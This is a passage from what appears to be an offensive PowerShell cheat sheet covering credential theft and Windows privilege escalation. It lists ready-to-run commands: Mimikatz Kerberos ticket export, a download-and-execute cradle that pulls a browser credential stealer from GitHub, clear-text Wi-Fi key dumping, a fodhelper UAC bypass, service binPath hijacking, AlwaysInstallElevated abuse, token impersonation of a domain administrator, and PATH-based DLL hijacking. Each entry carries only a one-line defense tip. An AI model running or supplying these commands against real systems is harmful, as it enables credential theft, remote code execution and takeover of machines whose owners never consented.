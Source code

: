 #### **Extract Kerberos Tickets**  
```powershell  
Invoke-Mimikatz -Command '"kerberos::list /export"'  
```  
- **Defense**: Monitor for abnormal Kerberos TGT requests.  

#### **Steal Browser Credentials**  
```powershell  
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/djhohnstein/SharpWeb/master/SharpWeb.ps1'); Get-SharpWeb  
```  
- **Defense**: Use credential vaults and disable browser password saving.  

#### **Extract Wifi Passwords**  
```powershell  
(netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  
```  
- **Defense**: Encrypt Wi-Fi profiles.  

---

### **2. Privilege Escalation**  
#### **Bypass UAC via fodhelper**  
```powershell  
New-Item -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Force; Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Name "(default)" -Value "C:\malware.exe"  
```  
- **Defense**: Block UAC bypass techniques via Group Policy.  

#### **Exploit Service Permissions**  
```powershell  
sc.exe config VulnService binPath= "C:\malware.exe"  
```  
- **Defense**: Audit service permissions with `accesschk.exe`.  

#### **Abuse AlwaysInstallElevated**  
```powershell  
msiexec /i C:\malware.msi /quiet  
```  
- **Defense**: Disable `AlwaysInstallElevated` in Group Policy.  

#### **Token Impersonation**  
```powershell  
Invoke-TokenManipulation -ImpersonateUser -Username "DOMAIN\Administrator"  
```  
- **Defense**: Restrict `SeImpersonatePrivilege`.  

#### **DLL Hijacking**  
```powershell  
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Session Manager\Environment" -Name "Path" -Value "C:\EvilDLL;$($env:Path)"  
```  
- **Defense**: Enable DLL signing enforcement.  

---